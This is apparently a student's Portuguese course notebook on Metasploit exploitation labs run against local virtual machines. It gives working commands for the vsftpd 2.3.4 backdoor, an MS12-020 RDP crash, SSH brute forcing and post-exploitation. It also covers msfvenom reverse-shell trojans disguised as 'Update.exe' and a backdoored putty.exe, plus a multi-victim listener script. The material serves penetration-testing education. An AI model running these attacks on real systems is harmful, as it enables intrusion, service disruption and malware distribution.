





# 🎯 Caderno de Resumos: Técnicas de Exploração de Vulnerabilidades (Metasploit)

> **Disciplina:** Técnicas de Exploração de Vulnerabilidades  
> **Laboratório:** Kali Linux atacando Metasploitable 2 (`192.168.56.101`)

---

## 🚪 Aula 1: Explorando Falhas no Protocolo FTP

### 1. Cenário e Riscos do FTP
* **Origem:** O FTP (*File Transfer Protocol*) é um dos métodos mais antigos de transferência de dados em redes e ainda muito presente em ambientes legados.
* **Problema de Conformidade:** Não possui criptografia nativa por padrão (trafega dados e senhas em texto puro) e carece de mecanismos modernos de controle de acesso, auditoria e conformidade.

### 2. Principais Tipos de Vulnerabilidades em FTP
* **Anonymous Authentication (Autenticação Anônima):** Permite login com usuário `anonymous` e senha vazia/qualquer e-mail, liberando leitura ou escrita no servidor sem autenticação real.
* **Directory Traversal (Travessia de Diretórios):** Falha que permite ao atacante escapar da pasta raiz pública do FTP (usando sequências como `../../etc/passwd`) e navegar livremente pelo disco do sistema operacional.
* **Cross-Site Scripting (XSS em interfaces FTP web):** Injeção de códigos maliciosos caso os nomes de arquivos ou diretórios sejam renderizados sem sanitização em painéis web.
* **Dridex / Escalonamento de Privilégios:** Uso de brechas e credenciais FTP para injetar malwares ou obter privilégios administrativos no sistema operacional.

---

## 🛠️ O Framework Metasploit

Plataforma profissional para desenvolvimento, teste e execução de exploits contra servidores e redes.

### Componentes e Interfaces do Metasploit
* **`msfconsole`**: Interface interativa de linha de comando mais utilizada por profissionais.
* **`msfweb`**: Interface gráfica via navegador web.
* **`msfpayload`**: Utilitário clássico para geração e customização de payloads (atualmente integrado ao `msfvenom`).
* **`msfcli`**: Interface de linha de comando direta para scripts de automação.
* **`msflogdump`**: Visualização e extração de logs de sessões.

### Arquitetura de Payloads no Metasploit
Payload é o código malicioso executado no alvo após o exploit abrir a brecha. Dividem-se em 3 categorias:

1. **Singles:** Payloads autônomos e autocontidos em um único pacote. Executam uma ação direta (ex: criar um usuário local) e não abrem canal interativo com o atacante.
2. **Stagers:** Pequenos códigos enviados primeiro para abrir uma conexão estável e preparar o terreno na memória do alvo.
3. **Stages:** Os módulos completos e complexos descarregados através do stager. Exemplo clássico: **Meterpreter**.



### O que é o Meterpreter (*Meta-Interpreter*)?
* Funciona via **injeção em memória** (*DLL Injection* em Windows / injeção de processos em Linux).
* **Furtividade Forense:** Reside 100% na memória RAM do anfitrião, **sem gravar arquivos no disco rígido**. Isso impede assinaturas de antivírus tradicionais e dificulta a perícia forense pós-incidente.

---

## 🧪 Prática Laboratorial: Exploit VSFTPD v2.3.4 Backdoor

### Objetivo da Missão
Invadir a VM Metasploitable 2 via porta 21 (FTP), obter uma shell de comando e capturar o arquivo `/home/msfadmin/flag.txt`.

---

### Passo a Passo da Operação

#### 1. Inicializar o Metasploit
No terminal do Kali Linux:
```bash
msfconsole
```

#### 2. Investigar o Exploit com `info`
```bash
info exploit/unix/ftp/vsftpd_234_backdoor
```

##### 🧠 Insights Profissionais ao Analisar a Saída do `info`:
* **Rank: `Excellent`**: Os exploits no Metasploit são classificados por estabilidade (`Manual`, `Low`, `Average`, `Good`, `Great`, `Excellent`). O rank **Excellent** significa que o exploit nunca derruba (*crash*) o serviço nem reinicia o servidor se falhar — execução garantida e segura.
* **Privileged: `Yes`**: Ao obter sucesso, o exploit concede shell direta como **root** (`uid=0`), sem necessidade de etapas extras de escalonamento de privilégios.
* **Origem Histórica (Backdoor 2011):** Em 2011, o repositório oficial do pacote `vsftpd-2.3.4.tar.gz` sofreu uma invasão na cadeia de suprimentos (*supply chain attack*). Os criminosos adicionaram uma linha que abria uma shell oculta na porta `6200` toda vez que um usuário tentasse login com uma carinha feliz `:)` no nome de usuário.

#### 3. Selecionar o Módulo
```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```

#### 4. Configurar Alvo e Portas (`show options` & `set`)
```bash
show options
set RHOSTS 192.168.56.101
# RPORT 21 já vem configurada por padrão
```
* **`RHOSTS` (*Remote Hosts*):** IP da máquina remota alvo.
* **`RPORT` (*Remote Port*):** Porta do serviço remoto (padrão 21 no FTP).

#### 5. Listar e Definir o Payload
```bash
show payloads
set payload payload/cmd/unix/interact
```
* O payload `payload/cmd/unix/interact` conecta a sua tela diretamente à shell interativa aberta pela backdoor.

#### 6. Executar o Ataque (`exploit`)
```bash
exploit
```

#### 7. Confirmação do Acesso e Captura da Flag
Ao disparar o comando, o Metasploit detecta o banner `220 (vsFTPd 2.3.4)`, engatilha o backdoor na porta TCP 6200 e abre a sessão interativa como `root`:

```bash
# Validar IP da máquina invadida
ip addr
# Retorna: inet 192.168.56.101/24 (confirmando invasão da VM)

# Navegar até o diretório do usuário msfadmin
cd /home/msfadmin
ls -l

# Ler o conteúdo do arquivo flag.txt
cat flag.txt
# Saída: flag
```

---

## 🛑 Aula 2: Ataque DoS no Windows RDP (Remote Desktop Protocol)

### 1. O que é o RDP?
* **Definição:** *Remote Desktop Protocol* (Protocolo de Área de Trabalho Remota da Microsoft). Permite controlar a interface gráfica de uma máquina Windows à distância.
* **Portas de Operação:** Opera por padrão na porta **TCP 3389** (e opcionalmente na **UDP 3389** para otimizar tráfego multimídia/redes móveis).

### 2. O que são Ataques RDP?
Tentativas de agentes maliciosos de obter acesso ao console remoto ou a privilégios administrativos. O RDP exposto é a porta de entrada preferida para:
* **Reconhecimento:** Mapear versões do Windows e permissões.
* **Comando e Controle (C2):** Manter controle persistente da máquina invadida.
* **Movimentação Lateral:** A partir de uma máquina comprometida, saltar para servidores de arquivos (*File Server*), servidores web (*Web Server*) e outros endpoints da rede corporativa.



### 3. Vetores e Casos Reais de Ataques RDP
* **Calling into Robinhood:** Técnica de engenharia social/suporte falso combinada com força bruta ou exploração de RDP para induzir funcionários ou invadir servidores corporativos e desviar ativos.
* **SamSam Ransomware:** Um dos ransomwares mais lucrativos e destrutivos da história. Sua principal porta de entrada era a **força bruta direta em portas RDP 3389 expostas na internet**, seguida de movimentação lateral para criptografar servidores inteiros e exigir resgates milionários.

### 4. Boas Práticas de Prevenção e Hardening
* **MFA (Autenticação Multifator) & Senhas Complexas:** Exige comprovação no celular/token além da senha, neutralizando ataques de força bruta simples.
* **Políticas de Bloqueio de Conta (*Account Lockout*):** Trava a conta após determinado número de tentativas incorretas consecutivas (mitigando força bruta direta).
* **Controle de Acesso Baseado em Função (RBAC):** Apenas administradores que estritamente necessitam do console RDP recebem permissão (Princípio do Privilégio Mínimo).
* **Restrições de Firewall:** Bloquear a porta 3389 para a internet pública, permitindo acesso RDP apenas via **VPN corporativa** ou endereços IP previamente autorizados (*whitelist*).

---

### 🧪 Prática Laboratorial: DoS no Windows XP/7 com `ms12_020_maxchannelids`

#### Objetivo
Executar um ataque de Negação de Serviço (**DoS - Denial of Service**) que causa corrupção de memória e gera a Tela Azul da Morte (**BSOD - Blue Screen of Death**) no alvo Windows.

#### Passo a Passo da Operação:

1. **Reconhecimento prévio da porta RDP (Dicas de Terminal):**
   ```bash
   nmap -p 3389 -Pn 192.168.56.107
   ```
   * `-Pn`: Trata o host como ativo sem pingar.
   * `STATE open` (`ms-wbt-server`): Confirma porta 3389 ativa e serviço RDP pronto para ser testado. Se aparecer `filtered`, o firewall da VM está bloqueando e precisa ser desativado.

2. **Abrir o Metasploit e buscar exploits de RDP:**
   ```bash
   msfconsole
   # Dica: 'search rdp' lista todos os módulos relacionados (atenção para não confundir com 'wordrpress')
   ```

3. **Carregar o Módulo Auxiliar DoS:**
   ```bash
   use auxiliary/dos/windows/rdp/ms12_020_maxchannelids
   ```
   * *O que é:* Módulo auxiliar que explora a vulnerabilidade MS12-020 (CVE-2012-0002). Envia pacotes RDP com IDs de canais forjados que estouram a memória do driver de rede do Windows.

4. **Configurar o Alvo e Executar:**
   ```bash
   show options
   set RHOSTS 192.168.56.107
   run
   ```
   * `set RHOSTS`: Define o IP da máquina vítima (Windows XP / Windows 7).
   * `run` (ou `exploit`): Dispara o pacote malicioso. O Windows trava instantaneamente com a tela azul (BSOD) e reinicia o computador.

---

## 🔑 Aula 3: Explorando Falhas no SSH (Secure Shell)

### 1. O que é o Protocolo SSH?
* **Definição:** *Secure Shell* — protocolo padrão para comunicação, login remoto criptografado e execução de comandos entre dispositivos em rede.
* **Porta Padrão:** **TCP 22**.
* **Falso Sentimento de Segurança:** Embora o SSH utilize criptografia de ponta a ponta (diferente do Telnet e do FTP puro), ele permanece vulnerável se o servidor permitir senhas fracas, usuários previsíveis ou falta de limitação de tentativas de login.

### 2. Força Bruta em SSH com Metasploit
* Em vez de tentar quebrar a criptografia matemática do SSH (impraticável), o ataque visa a **autenticação humana fraca** por meio de listas direcionadas de usuários (*user wordlist*) e senhas (*password wordlist*).

---

### 🧪 Prática Laboratorial: Força Bruta SSH com `ssh_login`

#### Objetivo
Descobrir credenciais válidas do serviço SSH no Metasploitable 2 (`192.168.56.101`) a partir do Kali Linux, abrir uma sessão interativa remota e navegar no sistema.

#### Passo a Passo da Operação:

1. **Abrir o Console do Metasploit:**
   ```bash
   msfconsole
   ```

2. **Buscar e Selecionar o Módulo Auxiliar:**
   ```bash
   search ssh_login
   use auxiliary/scanner/ssh/ssh_login
   ```
   * *O que é:* Scanner auxiliar projetado para testar combinações de login/senha em lote contra servidores SSH e abrir uma sessão de shell caso encontre credenciais válidas.

3. **Inspecionar Parâmetros com `info`:**
   ```bash
   info
   ```
   * O relatório revela a necessidade de definir o alvo (`RHOSTS`), a lista de usuários (`USER_FILE`) e a lista de senhas (`PASS_FILE`).

4. **Preparação das Wordlists no Kali:**
   * Lista de usuários (`/home/vitor/user.txt`): `root`, `msfadmin`, `user`, etc.
   * Lista de senhas (`/home/vitor/password.txt`): `123456`, `password`, `msfadmin`, etc.

5. **Configurar os Parâmetros:**
   ```bash
   set RHOSTS 192.168.56.101
   set USER_FILE /home/vitor/user.txt
   set PASS_FILE /home/vitor/password.txt
   ```

6. **Executar o Scanner / Exploit:**
   ```bash
   exploit
   # (ou 'run')
   ```
   * O scanner testa as credenciais. Ao acertar, exibe mensagens em verde `[+] Success: 'usuario:senha'`.

7. **Interagindo com as Sessões Abertas:**
   ```bash
   # Listar sessões de shell criadas pelo ataque
   sessions

   # Conectar à sessão desejada (exemplo: sessão 1)
   sessions 1
   ```

8. **Comandos de Pós-Exploração no Terminal Remoto:**
   ```bash
   # Confirmar o IP da máquina invadida
   ip addr

   # Descobrir o diretório atual de trabalho
   pwd

   # Listar permissões, arquivos e diretórios da máquina remota
   ls -l
   ```

---

## 🚪 Aula 4: Adicionando Backdoor em um Executável (Trojans & Meterpreter)

### 1. O que é um Backdoor?
* **Definição:** É o uso de qualquer malware, vírus, script ou tecnologia para contornar os mecanismos usuais de autenticação e segurança, garantindo acesso remoto e persistente não autorizado ao sistema, aplicativo ou rede.
* **Vetor de Entrada Comum:** Mascaramento do backdoor dentro de arquivos executáveis legítimos (*Trojans / Cavalos de Tróia*) ou atualizações falsas distribuídas através de **Engenharia Social** (phishing, download baits).

### 2. Ciclo de Vida do Ataque por Backdoor (C2 / Command and Control)



> **Por que a conexão reversa (*Reverse TCP*) é tão eficiente?**  
> Os firewalls corporativos bloqueiam conexões que tentam **entrar** na rede (Inbound). Porém, quando a vítima executa o arquivo, é a máquina interna que inicia uma conexão para **fora** (Outbound), o que o firewall geralmente permite sem restrições.

### 3. Principais Tipos de Ataques Realizados após Instalação de Backdoor
* **Spyware (Espionagem):** Monitoramento de telas, microfone, webcam e teclas digitadas (*keylogger*).
* **Ransomware (Criptografia / Extorsão):** Criptografa arquivos do disco e exige pagamento para recuperação.
* **DDoS (Negação de Serviço Distribuída):** O computador infectado passa a integrar uma rede *Botnet* para bombardear outros servidores.
* **Cryptojacking / Roubo de Criptomoedas:** Uso do processador e placa de vídeo da vítima em segundo plano para minerar moedas, ou roubo de credenciais/carteiras.

### 4. Medidas de Proteção e Mitigação
* **Rotatividade e Gestão de Senhas:** Troca periódica e uso de gerenciadores de credenciais seguras.
* **Monitoramento Contínuo de Tráfego de Rede:** Identificar conexões externas incomuns em portas não padronizadas (EDR / SIEM).
* **Cautela no Download de Arquivos:** Políticas rígidas de instalação corporativa (bloqueio de execução de executáveis sem assinatura digital válida).
* **Antivírus e Soluções EDR Atualizadas:** Verificação heurística e análise de comportamento em tempo real.

---

### 5. O Payload Meterpreter (Meta-Interpreter)
* **Injeção em DLL:** Opera via injeção reflexiva em memória (*Reflective DLL Injection*), acoplando-se a processos legítimos do Windows (ex: `explorer.exe` ou `svchost.exe`).
* **Residência 100% em RAM:** Não grava arquivos executáveis ou arquivos temporários no disco rígido do alvo.
* **Evasão Forense:** Extremamente difícil de detectar por perícias forenses convencionais e antivírus baseados apenas em assinaturas em disco.
* **Canal C2 Interativo:** Permite navegação direta no sistema de arquivos, download/upload de documentos, execução de comandos e escalonamento de privilégios.

---

### 6. Laboratório Prático: Criação e Disparo de Backdoor com `msfvenom`

#### Passo 1: Ambiente e Configurações das VMs
* **Atacante (Kali Linux):** `192.168.56.102`
* **Alvo (Windows 7):** `192.168.56.105`

#### Passo 2: Gerar o Executável Malicioso com `msfvenom`
A estrutura básica do utilitário `msfvenom` para gerar binários é:
```bash
msfvenom -p [PAYLOAD] -a [ARQUITETURA] --platform [PLATAFORMA] -f [FORMATO] LHOST=[IP_ATACANTE] LPORT=[PORTA_ATACANTE] -o [ARQUIVO_SAIDA]
```

Comando executado no terminal do Kali Linux:
```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --platform windows -f exe LHOST=192.168.56.102 LPORT=4444 -o Update.exe
```
* `-p windows/meterpreter/reverse_tcp`: Payload reverso que conectará de volta ao Kali.
* `-a x86 --platform windows`: Binário compatível com arquitetura x86/x64 Windows.
* `-f exe`: Formato final executável portátil do Windows (.exe).
* `LHOST=192.168.56.102`: IP do ouvinte (Kali).
* `LPORT=4444`: Porta de escuta aberta no Kali.
* `-o Update.exe`: Nome do arquivo gerado simulando uma atualização de sistema.

#### Passo 3: Hospedar o Arquivo no Servidor Web Apache Local
Para disponibilizar o executável para o download da vítima:
```bash
# Iniciar o servidor HTTP Apache no Kali
sudo service apache2 start

# Verificar se o servidor está ativo (Active: running)
sudo systemctl status apache2

# Copiar o binário para o diretório raiz público do Apache
sudo cp Update.exe /var/www/html/
```

#### Passo 4: Download pela Vítima (Windows 7)
Na máquina alvo (Windows 7), através do navegador, a vítima acessa o endereço:
`http://192.168.56.102/Update.exe`



*O Internet Explorer exibe o aviso de segurança perguntando se o usuário deseja Executar ou Salvar o aplicativo `Update.exe` originário de `192.168.56.102`.*

#### Passo 5: Configurar o Handler de Escuta no Metasploit (`msfconsole`)
No terminal do Kali Linux, iniciamos o ouvinte genérico que aguardará a conexão reversa:

```bash
msfconsole
```
Dentro do console:
```bash
# Carregar o módulo genérico de tratamento de conexões reversas
use exploit/multi/handler

# Definir EXATAMENTE o mesmo payload gerado no msfvenom
set payload windows/meterpreter/reverse_tcp

# Definir o IP do Kali que receberá a conexão
set LHOST 192.168.56.102

# Definir a porta em escuta
set LPORT 4444

# Colocar o handler em modo de espera ativa
run
```

> **⚠️ Atenção sobre o comando `run`:**  
> O comando `run` (ou `exploit`) dentro do `exploit/multi/handler` **não** abre o servidor Apache (o Apache já foi iniciado previamente com `service apache2 start`). O `run` inicia o **ouvinte reverso TCP (*listener*)** na porta 4444, deixando o Kali aguardando a vítima clicar no arquivo.

#### Passo 6: Execução no Alvo e Sessão Meterpreter Estabelecida
Quando a vítima executa o arquivo `Update.exe` no Windows 7, o binário executa o Stager, conecta ao Kali e puxa o Meterpreter diretamente para a memória:



```text
[*] Started reverse TCP handler on 192.168.56.102:4444 
[*] Sending stage (175686 bytes) to 192.168.56.105
[*] Meterpreter session 1 opened (192.168.56.102:4444 -> 192.168.56.105:49159) at 2026-11-09 03:58:08 -0300
meterpreter > 
```

#### Passo 7: Pós-Exploração e Navegação no Sistema Alvo
Uma vez conectado ao prompt do `meterpreter >`:
```bash
# Confirmar o diretório de trabalho atual do processo infectado
pwd
# Saída: C:\Users\vitor\Desktop

# Listar os arquivos e pastas da Área de Trabalho da vítima
dir

# Navegar para pastas críticas do sistema operacional
cd "C:\\Windows\\System32"
pwd
# Acesso total para coleta de dados, instalação de persistência ou modificação de arquivos do sistema.
```

---

## 💡 5 Exemplos Práticos Integrados (Exploração de Vulnerabilidades & Metasploit)

1. **Auditoria em RDP com Módulo Scanner do Metasploit:** Verificar remotamente se um servidor Windows é vulnerável à falha crítica MS12-020 sem derrubar o sistema:
   ```bash
   use auxiliary/scanner/rdp/ms12_020_check
   set RHOSTS 192.168.56.107
   run
   ```
2. **Varredura Especializada em RDP via Nmap:** Identificar criptografia fraca e suporte a NLA (*Network Level Authentication*) no RDP:
   ```bash
   nmap -p 3389 --script rdp-enum-encryption,rdp-ntlm-info 192.168.56.107
   ```
3. **Auditoria de Força Bruta SSH Direcionada:** Testar credenciais padrão em lote com criação de sessão interativa automática usando `auxiliary/scanner/ssh/ssh_login`:
   ```bash
   use auxiliary/scanner/ssh/ssh_login
   set RHOSTS 192.168.56.101
   set USER_FILE /home/vitor/user.txt
   set PASS_FILE /home/vitor/password.txt
   set STOP_ON_SUCCESS true
   run
   ```
4. **Criação de Binário Trojan Mascarado com Template Legítimo (msfvenom):** Injetar código malicioso preservando a funcionalidade e o ícone de um software legítimo usando `-x` (*template*):
   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.56.102 LPORT=4444 -x putty.exe -k -f exe -o putty_update.exe
   ```
5. **Automação de Ouvinte Multiconexão no Metasploit com Script de Recursos (`handler.rc`):** Subir ouvintes persistentes em segundo plano que aceitam múltiplas vítimas automaticamente:
   ```bash
   # Criar o arquivo de automação
   echo "use exploit/multi/handler" > handler.rc
   echo "set payload windows/meterpreter/reverse_tcp" >> handler.rc
   echo "set LHOST 192.168.56.102" >> handler.rc
   echo "set LPORT 4444" >> handler.rc
   echo "set ExitOnSession false" >> handler.rc
   echo "exploit -j" >> handler.rc

   # Executar no terminal
   msfconsole -r handler.rc
   ```
